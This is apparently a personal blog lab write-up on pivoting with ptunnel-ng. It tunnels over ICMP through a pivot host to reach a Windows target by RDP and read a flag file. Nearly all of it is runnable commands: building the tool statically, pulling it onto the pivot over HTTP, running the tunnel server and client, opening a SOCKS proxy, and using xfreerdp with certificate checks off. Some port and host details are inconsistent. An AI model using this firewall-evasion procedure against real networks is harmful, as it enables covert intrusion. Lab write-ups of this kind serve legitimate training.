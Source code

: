 ```yaml
---
title: ICMP Tunneling with ptunnel-ng to Access Internal Windows Host
author: saramazal
date: 2025-06-18
categories: [Pivoting]
tags: [pivoting, tunelling, ptunnel-ng, rce, xfreerdp, ssh, sshpass, scp, python server,]     # TAG names should always be lowercase
img_path: /images/covers
image:
  path: /images/covers/pivoting.jpg
---
```


# 🛰️ ICMP Tunneling with ptunnel-ng & SOCKS: Pivot to WinTarget

In this lab, we demonstrate how to use `ptunnel-ng` to establish an ICMP-based tunnel from an **Attack Host** to a **Pivot Host**, and then pivot further to a **Windows Target** to retrieve a flag.

---

## 🔧 Environment Setup

```bash
# Set Environment Variables
export AttackHost=10.10.xx.xx
export PivotHost=10.129.xx.xx
export WinTargetIp=172.16.xx.xx

export username=ubuntu
export passwd='pivotpass123'

export winuser=winuser
export winpasswd='pass@123'
````

---

## 🐚 Access Pivot Host

```bash
# Using sshpass to connect
sshpass -p "$passwd" ssh $username@$PivotHost
```

---

## 🛠️ Clone & Build ptunnel-ng

```bash
# On Attack Host
git clone https://github.com/utoni/ptunnel-ng.git
cd ptunnel-ng/
sudo apt install automake autoconf -y

# Patch autogen.sh for static build
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh

./autogen.sh
```

---

## 📦 Transfer to Pivot Host

```bash
# On Pivot Host:
python3 -m http.server 8123
```

```bash
# Serve files from Attack Host. On Pivot Host:
wget http://$AttackHost:8123/ptunnel-ng.tar.gz
tar -xvzf ptunnel-ng.tar.gz
```

Or using SCP:

```bash
# Serve files from Attack Host. On Pivot Host:
scp -r ptunnel-ng $username@$PivotHost:~/
```

---

## 📡 Start ptunnel-ng Server on Pivot

```bash
# On Pivot Host
cd ~/ptunnel-ng/src
sudo ./ptunnel-ng -r$WinTargetIp -R3389
```

---

## 🔁 Start ptunnel-ng Client on Attack Host

```bash
# On Attack Host
cd ptunnel-ng/src
sudo ./ptunnel-ng -p$PivotHost -l2222 -r$WinTargetIp -R3389
```

---

## 🧠 Connect via SSH or SOCKS

```bash
# Option 1: Direct tunnel to pivot (useful for shell)
ssh -p2222 -l$username 127.0.0.1

# Option 2: Dynamic SOCKS proxy
ssh -D 9050 -p2222 -l$username 127.0.0.1
```

---

## 🖥️ Access WinTarget via RDP

```bash
xfreerdp /v:127.0.0.1:3388 /u:$winuser /p:$winpasswd
```

If prompted with cert warnings, ignore them using:

```bash
xfreerdp /v:127.0.0.1:3388 /u:$winuser /p:$winpasswd /cert-ignore
```

---

## 🏁 Retrieve the Flag

Once connected to the desktop or through shell access, retrieve:

```
type C:\Users\winuser\Downloads\flag.txt
```

---

## ✅ Success!

You’ve successfully tunneled through ICMP from your Attack Box to the DC, bypassing traditional firewall rules. This technique is stealthy and powerful in restricted environments.

---

*Stay sneaky, stay ethical.* 🕶️

**~ Maz4l 🤺**